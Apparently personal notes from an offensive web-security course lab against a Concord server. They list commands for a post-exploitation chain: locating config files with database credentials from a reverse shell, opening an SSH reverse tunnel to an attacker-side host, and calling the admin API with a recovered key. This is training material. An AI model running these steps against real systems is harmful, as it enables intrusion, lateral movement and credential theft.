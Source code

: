 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  

We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
We can find the concord.conf file with: 
```bash
find / -type f -name *.conf 2>/dev/null
```
The concord.conf file contains credentials to a posgres db.
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  

Searching the codebase:
```powershell
gci -Recurse -Filter "*.java" |  sls -Pattern salt | select line,path
```
concord documentation: https://web.archive.org/web/20201123223951/https://concord.walmartlabs.com/docs/api/secret.html
Api Token creation at: https://github.com/walmartlabs/concord/blob/master/server/liquibase-ext/src/main/java/com/walmartlabs/concord/server/liquibase/ext/ApiTokenCreator.java
Specific Location is ApiKeyDao.java

Interacting with api with admin auth key
iwr -Uri 'http://concord:8001/api/v1/apikey' -Headers @{ Authorization = "basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA"));ContentType= "application/json"}
curl -H "Authorization: basic KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA" -H "Content-Type: application/json"  http://concord:8001/api/v1/apikey

As a side note we can also enter the docker container manually with:
``` bash
sudo docker exec -it concord1430_concord-server_1 /bin/bash
```